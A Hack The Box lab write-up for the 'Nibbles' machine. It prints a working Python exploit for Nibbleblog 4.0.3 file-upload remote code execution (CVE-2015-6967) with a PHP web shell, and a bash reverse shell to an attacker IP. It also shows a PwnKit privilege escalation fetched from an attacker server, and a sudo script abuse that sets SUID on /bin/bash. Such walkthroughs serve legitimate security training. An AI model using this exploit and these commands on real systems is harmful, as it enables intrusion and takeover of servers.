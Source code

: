 ```yaml
---
layout: single
title: Nibbles - Hack The Box
excerpt: "Nibbles is a fairly simple machine, however with the inclusion of a login blacklist, it is a fair bit more challenging to find valid credentials. Luckily, a username can be enumerated and guessing the correct password does not take long for most."
date: 2025-05-31
classes: wide
header:
  teaser: /img2/nibbles.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - Abusing Nibbleblog - Remote Code Execution via File Upload
  - SUID Binary Exploitation [Privilege Escalation] (OPTION 1)
  - Abusing Sudoers Privilege [Privilege Escalation] (OPTION 2)
---
```



## Reconnaissance

- Nmap

```bash
nmap --open -p- --min-rate 5000 -vvv -n -Pn 10.10.10.75
```

![](/img2/Pasted%20image%2020250531145003.png)

- Hidden directory

![](/img2/Pasted%20image%2020250531145217.png)

- Whatweb 

```bash
whatweb http://10.10.10.75/nibbleblog/
```

![](/img2/Pasted%20image%2020250531145330.png)

- Gobuster

```bash
gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```

![](/img2/Pasted%20image%2020250531164602.png)

![](/img2/Pasted%20image%2020250531165907.png)

![](/img2/Pasted%20image%2020250531165953.png)

![](/img2/Pasted%20image%2020250531170043.png)

- Gobuster to search php files

```bash
gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php
```

![](/img2/Pasted%20image%2020250531170158.png)

## Exploitation

- Test passwords in admin panel

![](/img2/Pasted%20image%2020250531184844.png)

> We can test: admin, nibble, nibbleblog, nibbles.

> Password --> nibbles

- Nibbleblog 4.0.3 File Upload Authenticated Remote Code Execution (RCE) (CVE 2015-6967)

```python
import argparse
import requests

class Nibbleblog():
    def __init__(self,target,username,password,rce):
        self.target = target
        self.username = username
        self.password = password
        self.cmd = rce
        self.upload()

    def upload(self):
        requests.packages.urllib3.disable_warnings()
        payload = "<?php echo system($_REQUEST['rse']); ?>"
        session = requests.Session()
        login_data = {
            'username':self.username,'password':self.password,'login':''
        }
        print("Loggin in to " + self.target)
        req_url_login = session.post(self.target,data=login_data,verify=False)
    
        file_data = {
            "plugin":"my_image",
            "title":"blah",
            "position":"4",
            "caption":"test",
        }

        file_content = {
            'rse':('rse.php',payload,'application/x-php',{'Content-Disposition':'form-data'}),
        }

        url_upload = self.target + "?controller=plugins&action=config&plugin=my_image"
        req_url_upload = session.post(url_upload,data=file_data,files=file_content,verify=False)
        if req_url_upload.status_code == 200:
            print("Logged in and was able to upload exploit!")
            self.rce()
        else:
            print("Something went wrong with the upload!")
            exit()

    def rce(self):
        requests.packages.urllib3.disable_warnings()
        url_shell = self.target.replace("/admin.php","/content/private/plugins/my_image/rse.php")
        print("Payload located in " + url_shell)
        if args.shell:
            while True:
                try:
                    cmd = input("RCE: ")
                    
                    rce_data = {
                        'rse':cmd
                    }
                    req_url_rce = requests.post(url_shell,data=rce_data,verify=False)
                    print(req_url_rce.text)
                except KeyboardInterrupt:
                    print("Bye Bye\n")
                    exit()

        if args.rce:
            rce_data = {
                'rse':self.cmd
            }
            req_url_rce = requests.post(url_shell,data=rce_data,verify=False)
            print(req_url_rce.text)

if __name__ == "__main__":
    print("Nibbleblog 4.0.3 File Upload Authenticated Remote Code Execution")
    parser = argparse.ArgumentParser(description='Nibbleblog 4.0.3 File Upload Authenticated Remote Code Execution')

    parser.add_argument('-t', metavar='<Target admin URL>', help='admin target/host URL, E.G: http://nibblesrce.com/blog/admin.php', required=True)
    parser.add_argument('-u', metavar='<user>', help='Username', required=True)
    parser.add_argument('-p', metavar='<password>', help="Password", required=True)
    parser.add_argument('-rce', metavar='<Remote Code Execution>', help='-rce whoami', required=False)
    parser.add_argument('-shell',action='store_true',help='Pseudo-Shell option for continous rce', required=False)
    args = parser.parse_args()

    Nibbleblog(args.t,args.u,args.p,args.rce)
```

```bash
python3 exploit.py -t http://10.10.10.75/nibbleblog/admin.php -u admin -p nibbles -rce whoami
```

![](/img2/Pasted%20image%2020250531185738.png)

- Manual Explotation

```php
<?php
  system("whoami"); 
?>
```

![](/img2/Pasted%20image%2020250531190847.png)

![](/img2/Pasted%20image%2020250531191028.png)

- Send reverse shell

![](/img2/Pasted%20image%2020250531190847.png)

```php
<?php
  system("bash -c 'bash -i >& /dev/tcp/10.10.16.7/9000 0>&1'");
?>
```

![](/img2/Pasted%20image%2020250531191751.png)

```bash
nc -nlvp 9000
```

## Post-exploitation (OPTION 1)

- Find SUID

```bash
find / -perm -4000 2>/dev/null 
```

![](/img2/Pasted%20image%2020250531193152.png)

- CVE-2021-4034 (Pkexec Local Privilege Escalation)

```bash
wget https://github.com/ly4k/PwnKit/blob/main/PwnKit.c
python3 -m http.server
```

```bash
wget http://10.10.16.7/PwnKit.c
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
./PwnKit
```

## Post-exploitation (OPTION 2)

- Check sudoers

```bash
sudo -l
```

![](/img2/Pasted%20image%2020250601173610.png)

- Check /home/nibbler/personal/stuff/monitor.sh file

```bash
cat /home/nibbler/personal/stuff/monitor.sh
```

![](/img2/Pasted%20image%2020250601173714.png)

> No such file

- Create monitor.sh

```bash
mkdir -p /home/nibbler/personal/stuff && echo "chmod u+s /bin/bash" > /home/nibbler/personal/stuff/monitor.sh && chmod +x /home/nibbler/personal/stuff/monitor.sh && sudo /home/nibbler/personal/stuff/monitor.sh && bash -p
```


![](/img2/Pasted%20image%2020250531192853.png)